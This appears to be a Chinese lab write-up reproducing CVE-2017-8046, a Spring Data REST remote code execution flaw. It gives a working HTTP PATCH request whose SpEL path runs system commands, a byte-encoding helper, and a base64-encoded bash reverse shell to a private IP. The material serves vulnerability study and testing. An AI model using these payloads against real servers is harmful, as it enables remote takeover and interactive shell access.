





# Spring Data Rest 远程命令执行漏洞 CVE-2017-8046

## 漏洞描述

Spring Data REST 是一个构建在 Spring Data 之上，为了帮助开发者更加容易地开发 REST 风格的 Web 服务。在 REST API 的 Patch 方法中（实现 [RFC6902](https://tools.ietf.org/html/rfc6902)），path 的值被传入 `setValue`，导致执行了 SpEL 表达式，触发远程命令执行漏洞。

参考链接：

- [http://xxlegend.com/2017/09/29/Spring%20Data%20Rest 服务器 PATCH 请求远程代码执行漏洞 CVE-2017-8046 补充分析/](http://xxlegend.com/2017/09/29/Spring Data Rest 服务器 PATCH 请求远程代码执行漏洞 CVE-2017-8046 补充分析/)
- [https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html](https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞(CVE-2017-8046)_分析与复现.html)

## 环境搭建

Vulhub 执行如下命令启动漏洞环境：

```
docker-compose up -d
```

等待环境启动完成，然后访问 `http://your-ip:8080/` 即可看到 json 格式的返回值，说明这是一个 Restful 风格的 API 服务器。



## 漏洞复现

先将命令转为 ASCII 码表示：

```python
# Payload to ASCII
payload = b'touch /tmp/awesome_poc'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```

执行结果：

```
116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99
```

开始复现，访问 `http://your-ip:8080/customers/1`，看到一个资源。我们使用 PATCH 请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}))/lastname", "value": "vulhub" }]
```

path 的值是 SpEL 表达式，发送上述数据包，将执行 `new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}` 表示的命令 `touch /tmp/awesome_poc`。



进入容器 `docker-compose exec spring bash` 查看，可见，文件 `awesome_poc` 被成功创建：



将 bytecode 改成反弹 shell 的命令，并进行转换：

```
# 反弹shell命令
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# bytecode
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,78,67,52,120,77,106,103,118,79,84,107,53,79,83,65,119,80,105,89,120,67,103,111,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

发送数据包：



成功接收反弹 shell：


